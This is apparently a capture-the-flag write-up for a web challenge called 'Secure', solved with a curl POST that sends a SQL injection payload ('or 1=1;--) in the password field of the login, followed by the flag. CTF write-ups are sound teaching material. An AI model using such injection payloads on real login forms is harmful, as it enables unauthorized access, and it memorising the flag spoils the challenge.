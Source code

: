 # Web / Secure
By BrownieInMotion

Just learned about encryption—now, my website is unhackable!

https://secure.mc.ax/

# Solution
The website looks like this. 

<img src="https://user-images.githubusercontent.com/86171033/125356385-ff7d7900-e31a-11eb-8e17-8b5c4e7915f5.png" alt="image" width="800"/>

One solution is to use curl:

```curl https://secure.mc.ax/login --data "username=admin&password='or 1=1;--"```

The output looks like this:

<img src="https://user-images.githubusercontent.com/86171033/125361948-ef699780-e322-11eb-97d2-0d8f6c757e6c.PNG" width="800"/>

# Flag
```flag{7B50m37h1n6_50m37h1n6_cl13n7_n07_600d}```
